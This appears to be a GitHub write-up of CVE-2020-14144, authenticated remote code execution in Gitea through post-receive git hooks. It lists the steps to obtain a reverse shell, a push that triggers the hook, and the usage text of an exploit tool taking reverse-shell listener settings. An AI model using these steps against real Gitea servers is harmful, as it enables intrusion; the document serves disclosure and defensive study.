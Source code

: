 # GiTea - User with git hooks activated

## Requirements

A valid username and password of an account with "May create git hooks" right.

![](./imgs/may_create_git_hooks.png)

## Description

The git hook feature in Gitea 1.1.0 through 1.12.5 might allow for authenticated remote code execution in customer environments where the documentation was not understood (e.g., one viewpoint is that the dangerousness of this feature should be documented immediately above the `ENABLE_GIT_HOOKS` line in the config file). This vulnerability was found by [Niklas Goerke](https://twitter.com/Niklas974) in April 2020.

**NOTE**: The vendor has indicated this is not a vulnerability and states "_This is a functionality of the software that is limited to a very limited subset of accounts. If you give someone the privilege to execute arbitrary code on your server, they can execute arbitrary code on your server. We provide very clear warnings to users around this functionality and what it provides._"

In order to exploit this vulnerability/feature, we need to have a GiTea account with the "_May create git hooks_" rights activated.

A [github issue](https://github.com/go-gitea/gitea/pull/13058) was opened and fixed in version 1.13.0

## Exploitation

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.

![Account with "_May create git hooks_" rights activated](./imgs/may_create_git_hooks.png)

From a system administration point of view, the gitea process looks like this before the exploitation :

![Service status before exploit](./imgs/gitea_service_before_exploit.png)

First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.

![Post Receive Hook](./imgs/post_receive_hook.png)

Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell!

![Reverse Shell](./imgs/gitea_reverse_shell.png)

After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea:

![Service status after exploit](./imgs/gitea_service_after_exploit.png)

## Exploit tool

I wrote a tool to automatically exploit this vulnerability [CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) :

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT]
                                             [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.
```

## References
 - https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce
 - https://github.com/go-gitea/gitea/pull/13058
